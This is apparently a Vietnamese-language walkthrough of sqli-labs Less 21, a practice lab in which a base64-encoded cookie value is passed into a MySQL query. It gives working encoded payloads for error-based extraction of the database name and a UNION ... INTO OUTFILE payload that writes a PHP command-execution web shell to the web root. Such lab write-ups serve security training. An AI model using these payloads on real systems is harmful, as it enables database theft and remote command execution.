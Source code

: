 # Less 21

Đề bài cho một khung nhập

![](../images/sqli-labs/Less-21/01.png)

Thử đăng nhập

![](../images/sqli-labs/Less-21/02.png)

Tôi tìm cách để pass qua được màn đăng nhập nhưng không được. Có thể ở đây ở dưới backend đã check input đầu vào ở khung đăng nhập nên ta không thể injection ở đây. 

Tôi thử dùng một tài khoản để đăng nhập

![](../images/sqli-labs/Less-21/03.1.png)

![](../images/sqli-labs/Less-21/03.png)

Ở đây ta thấy có nhiều thông tin được hiển thị bao gồm `user-agent` và `cookies`

Tôi thử thay đổi `user-agent` trong http request header

![](../images/sqli-labs/Less-21/04.png)

Thì tôi thấy nó đã hiển thị lên màn hình

![](../images/sqli-labs/Less-21/05.png)

Sau đó tôi thử truyền vào một số giá trị để xem có thể injection được từ đây không nhưng tôi thấy không được. Tiếp đó tôi thử thay đổi `cookies` trong request header

![](../images/sqli-labs/Less-21/06.png)

Kết quả trả về

![](../images/sqli-labs/Less-21/07.png)

Ta thấy ở đây gía trị đã được lấy để hiển thị lên màn hình nhưng ta thấy cũng có lỗi của SQL hiển thị lên màn hình. 

Ở đây ta thấy ta không truyền vào giá trị `¦v` nhưng ta lại thấy có xuất hiện ký tự này trong lỗi của SQL hiển thị ra. Ta cũng có thể nhận thấy như ban đầu tôi đăng nhập tôi thấy có chuỗi giá trị `umane` ở trong `cookies` ta là một chuỗi nhìn vào không có ý nghĩa. Tôi dự đoán có thể giá trị trong trường này có thể đã được encode. Tôi thử lấy chuỗi `YWRtaW4=` đem decode thì khi tôi decode ra base64 thì thấy chuỗi có giá trị là `admin`. Tiếp tục thử tôi lấy giá trị tôi truyền vào là `niemdt` như lúc tôi truyền vào cookies đem decode ra thì được gía trị là `'v` thấy tương đồng với gía trị lúc SQL báo lỗi. Như vậy ta thấy rằng giá trị lấy ở trong trường cookies sẽ được đem decode để truyền vào câu query trong mysql và hiển thị ra mà hình.

Bây giờ trước khi muốn truyền giá trị nào vào cookies tôi sẽ đem giá trị đó đi encode trước rồi mới truyền vào

`niemdt` ---> `bmllbWR0`

![](../images/sqli-labs/Less-21/08.png)

Đã không còn thấy lỗi

![](../images/sqli-labs/Less-21/09.png)

Thử truyền vào một số thông số để xem có thể injection

`admin'` ---> `YWRtaW4n`

![](../images/sqli-labs/Less-21/10.png)

![](../images/sqli-labs/Less-21/11.png)

Ta thấy được câu query ở đây là câu lệnh `select`

Như vậy dựa vào đây ta có thể show các thông tin trong DB

show tên của DB hiện tại

`admin') and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- '` ---> `YWRtaW4nKSBhbmQgKFNFTEVDVCAwIEZST00gKFNFTEVDVCBjb3VudCgqKSwgQ09OQ0FUKChzZWxlY3QgZGF0YWJhc2UoKSksIDB4MjMsIEZMT09SKFJBTkQoMCkqMikpIEFTIHggRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyBHUk9VUCBCWSB4KSB5KSAtLSAn` 

![](../images/sqli-labs/Less-21/12.png)

![](../images/sqli-labs/Less-21/13.png)

Tương tự như vậy ta có thể có thể show các thông tin khác như những bài trước.

Ta cũng có thể thêm đoạn code PHP vào server

`admin') union select 1,2,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/c1.php' -- '` ---> `YWRtaW4nKSB1bmlvbiBzZWxlY3QgMSwyLCI8P3BocCBzeXN0ZW0oJF9SRVFVRVNUWydjbWQnXSk7Pz4iIGludG8gb3V0ZmlsZSAnL3Zhci93d3cvaHRtbC90ZXN0cy9jMS5waHAnIC0tICc=`

![](../images/sqli-labs/Less-21/14.png)

![](../images/sqli-labs/Less-21/15.png)

![](../images/sqli-labs/Less-21/16.png)